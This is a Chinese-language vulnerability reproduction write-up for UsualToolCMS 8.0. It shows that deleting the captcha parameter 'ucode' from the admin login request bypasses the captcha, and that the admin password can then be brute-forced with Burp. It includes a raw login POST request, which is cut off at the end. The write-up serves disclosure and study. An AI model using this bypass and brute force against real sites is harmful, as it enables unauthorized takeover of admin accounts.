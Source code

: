 UsualToolcms 8.0 绕过后台验证码爆破
===================================

一、漏洞简介
------------

可通过删除验证码参数，进行暴力破解

二、漏洞影响
------------

UsualToolCMS-8.0-Release

三、复现过程
------------

漏洞点:<http://0-sec.org/cmsadmin/>

后台登陆时默认需要输入验证码，但是当我把验证码的参数ucode删除时，登陆依然成功

### 1.默认情况下登陆数据包

![](./.resource/UsualToolcms8.0绕过后台验证码爆破/media/rId26.png)

![](./.resource/UsualToolcms8.0绕过后台验证码爆破/media/rId27.png)

删除ucode参数和cookie后登陆，直接登陆成功

![](./.resource/UsualToolcms8.0绕过后台验证码爆破/media/rId28.png)

通过burp爆破后台密码

![](./.resource/UsualToolcms8.0绕过后台验证码爆破/media/rId29.png)

![](./.resource/UsualToolcms8.0绕过后台验证码爆破/media/rId30.png)

    POST /UsualToolCMS/cmsadmin/a_login.php?do=login HTTP/1.1
    Host: 0-sec.org
    User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; rv:48.0) Gecko/20100101 Firefox/48.0
    Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
    Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
    Accept-Encoding: gzip, deflate
    DNT: 1
    Referer: http://192.168.235.242/UsualToolCMS/cmsadmin/a_login.php
    X-Forwarded-For: 8.8.8.8
    Connection: close
    Upgrade-Insecure-Requests: 1
    Content-Type: application/x-www-form-urlencoded
    Content-Length: 23

    uuser=admin&upass=admi
